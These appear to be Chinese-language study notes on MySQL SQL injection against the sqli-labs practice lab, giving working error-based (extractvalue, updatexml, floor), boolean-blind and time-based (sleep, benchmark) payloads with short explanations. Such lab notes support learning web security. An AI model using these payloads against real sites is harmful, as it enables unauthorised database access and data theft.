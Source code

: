 #### 报错注入

* 通过 extractvalue() 函数报错

  * 利用代码：`Less-2/?id=1 [and|or] extractvalue(1, concat(0x7e,database()))`
  * 注意事项：extractvalue() 函数有两个参数，第一个参数为 1 即可，第二个参数是需要查询的数据

* 通过 updatexml() 函数报错

  * 利用代码：`Less-2/?id=1 [and|or] updatexml(1,concat(0x7e,database()),1)`
  * 注意事项：updatexml() 函数有三个参数，第一个和第三个参数写 1 即可，第二个参数是需要查询的数据

* 通过 floor() 函数报错

  * 利用代码：`Less-2/?id=1 [and|or] (select 1 from (select count(*), concat(database(), floor(rand(0)*2))x from information_schema.tables group by x)y)`

    > rand()：随机数函数，取值范围 0~1；       rand(0)：种子数，固定值
    >
    > floor()：向下取整函数；                             floor(rand(0)*2))：只会出现两种情况，要么 0，要么 1
    >
    > count()：计数函数；                                   count(*)：统计总数
    >
    > group by：分组；                                        x 与 y 都是别名

  * 注意事项

    1. 在 MySQL 8.0 版本已失效

    2. 查询的表内数据至少 3 条

#### 布尔盲注

不管输入什么，结果只返回真或假。关键在于通过表达式结果与已知值进行比对判断正确与否。

1. 先获取长度：`id=1' and length(database())=5`
2. 枚举每一个字符：`id=1' and substr(database(),1,1)='s'`

> length()：返回查询字符串长度；left(str，length)；从左边第一位开始截取指定长度字符串；ord()、ascii()：返回字符的 ASCII 码
>
> substring(str, index, length) 、substr(str, index, length)、mid(str, index, length)：从指定开始位置截取指定长度字符串

#### 延时注入

延时注入通过页面返回的时间来判断，不同的 MySQL 版本延时注入的语法也不同。

MySQL>=5.0 的可以使用 sleep() 进行查询，MySQL<5.0 的可以使用 benchmark() 进行查询。

* benchmark() 的用法
  * benchmark(查询次数, SQL语句)
  * `select benchmark(1000, select * from users);`
* sleep() 的用法
  * `id=1 and sleep(5)` 判断是否存在延时注入
  * `and if(substring(user(),1,4)='root',sleep(5),1)`  判断当前用户是否为 root 用户
  * `and if(mid(version(),1,1) like 5,sleep(5),1)` 判断 MySQL 版本是否为 5 版本
  * `and if(ascii(substring(database(),1,4))>100,sleep(5),1)` 猜解数据库名
